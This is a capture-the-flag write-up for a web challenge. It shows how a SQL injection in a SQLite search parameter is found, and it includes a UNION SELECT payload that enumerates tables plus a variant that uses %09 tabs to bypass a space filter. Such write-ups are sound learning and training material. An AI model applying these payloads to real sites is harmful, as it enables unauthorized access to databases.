



# 🛠️ Constructi0nzone - Writeup

**Category:** Web  
**Points:** 50  
**Author:** daresse  
**Description:**  
> We're looking for information about the Xtreme Scavenger Squad (XSS). Check out their new site and try to uncover anything useful — ideally, a list of their members.

---

## 🧩 Initial Clues

Viewing the page source reveals developer comments:

```html
<!-- reminder : change the database scheme 
     table : users:
         col : username 
         col : password
         are bad as table/column names and should be replaced with something less guessable -->
```

This hints at a **SQL injection** vulnerability and possibly a `users` table.

---

## 🕵️ Reconnaissance




Triggering an error on the site with characters like `'` reveals the backend uses **SQLite**:


This helps us tailor our injection payloads.

---

## 🔍 Query Structure

From an error message, we learn the query format:

```sql
SELECT mission_title, mission_desc, associated_agents FROM MISSION WHERE search={input}
```

This means we can inject directly into the `search` parameter.

---

🚧 Space Filtering Bypass

The application actively blocks the use of space characters in the input, displaying the message:

```
Malicious keyword detected
```


To bypass this space filtering, we can replace spaces with a URL-encoded tabulation character (%09) which SQLite treats as whitespace, allowing the query to parse correctly without triggering the filter.

For example, instead of:
```sql
1 UNION SELECT name, '', '' FROM sqlite_master WHERE type='table'--
```
Use:

```sql
1%09UNION%09SELECT%09name,%09'',%09''%09FROM%09sqlite_master%09WHERE%09type='table'--
```

This way, the server sees valid whitespace, and the injection works despite the space ban.


## 💥 Exploitation

After identifying the correct table and column names, and bypassing the space filter using %09, we crafted a final payload to extract the flag from the database.



We successfully retrieved the flag:

This confirms that the SQL injection vulnerability can be exploited to enumerate database content and access sensitive information.
---
